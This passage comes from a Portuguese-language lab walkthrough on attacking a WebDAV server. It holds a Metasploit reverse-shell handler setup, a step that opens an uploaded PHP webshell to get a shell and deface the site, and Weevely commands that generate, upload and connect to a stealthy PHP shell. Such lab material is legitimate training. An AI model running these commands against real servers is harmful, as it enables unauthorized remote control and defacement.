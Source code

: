 ```bash
msf6 > use exploit/multi/handler
msf6 > set payload php/meterpreter/reverse_tcp
msf6 > set lhost 192.168.100.11
msf6 > set lport 5555
msf6 > exploit

```

![exploit sendo ativo](./lab-n-5.png)

No browser clique no link: 
-   http://192.168.10.11/dav/webshell.php

Que vimos anteriormente, e este abrirá o tunel reverso apra a estacao do KALI, 192.168.100.11

Digitando sysinfo aparecerá informacoes sobre o servidor. 
Entraremos no shell do servidor invadido, e criaremos um arquivo hacked.html no servidor web... para marcar a nossa presença.

![hacked](./lab-n-6.png)


----


#### 6.8 Ferramentas Alternativas para Exploração WebDAV

##### 1. davtest
```bash
# Testa upload de diferentes tipos de arquivos via WebDAV
davtest -url http://192.168.100.11/dav/
```
> O davtest automatiza o teste de upload de vários tipos de arquivos (.php, .asp, .html, etc) e verifica quais são executáveis no servidor.

##### 2. wfuzz
```bash
# Fuzzing de métodos HTTP permitidos
wfuzz -c -z list,PUT-DELETE-MOVE-COPY-PROPFIND -X FUZZ http://192.168.100.11/dav/
```
> Útil para descobrir métodos HTTP habilitados no servidor WebDAV.

##### 3. curl
```bash
# Teste manual de métodos WebDAV
curl -X PROPFIND -H "Depth: 1" http://192.168.100.11/dav/
```
> Ferramenta versátil para testar manualmente diferentes métodos WebDAV.

##### 4. Weevely - Gerador de Shell PHP
```bash
# Gera um shell PHP mais discreto
weevely generate senha123 shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
# Conecta ao shell
weevely http://192.168.100.11/dav/shell.php senha123
```
> Weevely gera shells PHP mais difíceis de detectar e oferece funcionalidades adicionais.
